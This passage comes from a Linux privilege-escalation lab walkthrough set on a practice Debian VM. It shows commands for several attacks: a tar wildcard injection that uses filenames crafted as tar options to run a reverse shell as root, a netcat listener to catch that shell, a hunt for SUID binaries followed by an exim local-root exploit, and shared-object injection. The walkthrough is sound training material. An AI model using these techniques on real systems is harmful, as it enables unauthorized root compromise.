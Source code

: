 Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.  

`nc -nvlp 4444`


## SUID / SGID Executables

### Known Exploits

Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

### Shared Object Injection

The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`  

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:
